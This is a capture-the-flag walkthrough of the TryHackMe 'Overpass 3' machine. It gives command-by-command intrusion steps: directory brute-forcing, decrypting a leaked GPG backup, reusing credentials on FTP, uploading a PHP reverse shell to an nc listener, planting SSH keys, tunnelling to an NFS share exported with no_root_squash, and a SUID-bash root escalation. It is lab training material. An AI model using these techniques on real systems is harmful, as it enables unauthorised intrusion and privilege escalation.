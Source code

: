 # Overpass 3

🔗 Link to the CTF: [https://tryhackme.com/room/overpass3hosting](https://tryhackme.com/room/overpass3hosting)
🌐 IP used for the machine: 10.10.226.107

## Port Scanning

Upon boot, the first thing I did was to scan the machine with nmap using:

`sudo nmap -sC -sV -v 10.10.226.107 -oN nmap/initialScan` to see common open ports.

`sudo namp -A -p- -v 10.10.226.107 -oN namp/allPortsScan` to scan all open ports in agressive mode.

After the scan, three ports are seen open:
- **21**: Running FTP. No anonymous login available.
- **22**: Running SSH.
- **80**: Running HTTP.

## Directory enumeration

Nothing interesting was found neither when visiting the site in 10.10.226.107, nor when looking at the source code.

I ran gobuster for directory enumeration with: `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.226.107` and found the following result:

    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.226.107
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2022/08/10 09:47:13 Starting gobuster in directory enumeration mode
    ===============================================================
    /backups              (Status: 301) [Size: 237] [--> http://10.10.226.107/backups/]

There exists a **backups** directory, and, inside it, a **backup.zip** file.

## The ZIP file

After downloading the file and unzziping it, two files are found:
    -rw-r--r-- 1 kali kali 10366 Nov  8  2020 CustomerDetails.xlsx.gpg
    -rw------- 1 kali kali  3522 Nov  8  2020 priv.key

CustomerDetails.xlsx.gpg was encripted with GPG using the key priv.key. To decrypt it, we first impirt the key into gpg with `gpg --import priv.key` and decrypt the file with `gpg -d CustomerDetails.xlsx.gpg > CustomerDetails.xlsx`, outputting the result into the new file **CustomerDetails.xlsx**.

## FTP and getting a Reverse Shell

Inside the CustomerDetails.xlsx filewe find three customers with their usernames and passwords. So I tried them to login into the FTP, finding that I could do that for the user **paradox**.

After listing the files inside the FTP I found they were the same ones in the HTTP server:

    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 48       48             24 Nov 08  2020 backups
    -rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg
    -rw-r--r--    1 0        0            1770 Nov 17  2020 index.html
    -rw-r--r--    1 0        0             576 Nov 17  2020 main.css
    -rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg
    226 Directory send OK.

So, to test this, I uploaded a PHP reverse shell (I used the one from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)) by running `ftp> put PATH_TO_REVERSE_SHELL`. I opened my netcat listener on port 8888 (that's the port I configured in the reverse shell) with `nc -lvnp 8888`. After accessing via HTTP 10.10.226.107/reverseShell.php got a conection.

## Web Flag

Running `id` on the reverse shell reveals that we are connected as `uid=48(apache) gid=48(apache) groups=48(apache)`. So, I ran `find / -name=*flag*` and found the flag at **/usr/share/httpd/web.flag**.

## User Flag

### Logging in as Paradox

Reading the `/etc/passwd` file reveals two interesting users: **paradox** and **james**. Since we have paradox's password for the FTP, I tried logging in as him with that password by running `su paradox`; it was successful.

After that, I tried to find the user's flag, but I couldnt do so with Paradox. The aim now is to login as james and see if he can access it.

### Connecting as paradox via SSH

Inside paradox's home directory we have access to the **.ssh** directory and with it to the SSH keys. I first created a new private/public SSH key pair with `ssh-keygen` and wrote the public key into the authorized_keys file with `cat id_rsa.pub >> authorized_keys`. I then copied the private key into my local machine in a file called **id_rsa_paradox** (I also chenged permissions to 600 with `chmod 600 id_rsa_paradox`) and coinnected via SSH using `ssh paradox@10.10.226.107 -i id_rsa_paradox`.

### Vulnerability enumeration with linpeas and explotation

The results of linpeas show an interesting vulnerability regarding NFS shares:

    ╔══════════╣ Analyzing NFS Exports Files (limit 70)
    -rw-r--r--. 1 root root 54 Nov 18  2020 /etc/exports
    /home/james *(rw,fsid=0,sync,no_root_squash,insecure)

This indicates that James Homes directory can be accesed as a NFS share. However, trying to directly mount it in our local machine won't work because it is running on its localhost. Thus, we must make it accessible to us. What I did was to create an SSH tunnel for port forwarding, mapping port 4049 on my machine to port 2049 on the target machine (default port for NFS), with `ssh -L 4049:10.10.226.107:2049 paradox@10.10.226.107 -i id_rsa_paradox`.

To check this worked I scanned local port 4049 with `nmap -sV -p 4049 localhost`. The result was:

    PORT     STATE SERVICE VERSION
    4049/tcp open  nfs     3-4 (RPC #100003)

Now we can mount that directory. I created a directory called jamesHomeDir. In there I mounted James' home directory with: `sudo mount -t nfs -o port=4049 localhost:/ jamesHomeDir`.

### The User Flag

Inside this directory we will find the user flag.

## Logging in as James

Listing the contents of the mounted directory, we find the following:

    $ ls -al             
    total 20
    drwx------ 3 kali kali  112 Nov 17  2020 .
    drwxr-xr-x 7 kali kali 4096 Aug 10 13:42 ..
    lrwxrwxrwx 1 root root    9 Nov  8  2020 .bash_history -> /dev/null
    -rw-r--r-- 1 kali kali   18 Nov  8  2019 .bash_logout
    -rw-r--r-- 1 kali kali  141 Nov  8  2019 .bash_profile
    -rw-r--r-- 1 kali kali  312 Nov  8  2019 .bashrc
    drwx------ 2 kali kali   61 Nov  7  2020 .ssh
    -rw------- 1 kali kali   38 Nov 17  2020 user.flag

We have access to the .ssh directory. We can grab james' private key and use it to log in as him via SSH.

## Privilege escalation

Once in, to escalate privileges, we will run bash as root. For that, the first thing will be to copy into james' home directory (the one we can access from our home machine) the bash file with `cp /usr/bin/bash /home/james` (**from the SSH session**). **In our local machine** we will change the ownership of the file, so that root owns it, and make it a SUID binary with:

    $ sudo chown root:root bash
    $ sudo chmod +s bash

After that, in the SSH session, as James, we will run that bash file with the **-p** flag: `./bash -p`. Running `id` shows we have root privileges: `uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),1000(james)`.

## Root Flag

Inside the root directory we'll find the root flag.
